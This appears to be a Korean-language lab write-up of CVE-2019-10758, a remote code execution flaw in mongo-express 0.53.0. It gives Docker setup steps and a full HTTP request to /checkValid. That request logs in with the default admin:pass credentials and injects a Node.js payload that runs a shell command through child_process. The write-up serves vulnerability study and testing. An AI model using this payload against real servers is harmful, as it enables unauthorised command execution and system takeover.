





# CVE-2019-10758
**Contributors**
-   [박진석(@ilohas0021)](https://github.com/ilohas0021)

<br/>

### 요약
-   mongo-express는 MongoDB 데이터베이스 관리를 위한 웹 인터페이스로 Node.js와 Express로 개발되었음.
-   CVE-2019-10758은 mongo-express에서 발견된 원격 코드 실행 취약점으로 공격자는 원격 서버에 Node.js 코드를 실행할 수 있음.
-   이 취약점은 공격자가 로그인에 성공하거나 목표 서버가 기본 계정 비밀번호(기본 값: admin:pass)를 변경하지 않은 경우에만 사용 가능함.

<br/>

### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경(mongo-express 0.53.0)을 실행함.



-   `http://your-ip:8081`에 접속하여 페이지를 확인함.


-   `python poc.py your-ip:8081`를 호출하여 `Packet` 을 전송하면 아래 코드를 실행할 수 있음.
-   `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")` 


#### Packet
```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<br/>

### 결과


<br/>

### 정리
-   이 취약점은 공격자가 mongo-express 서버에 악의적인 코드를 삽입하여 시스템을 해킹하거나 조작할 수 있는 위험을 갖고 있음.
-   따라서, 안전한 웹 서비스 운영을 위해 정기적인 취약점 점검과 패치가 중요함.
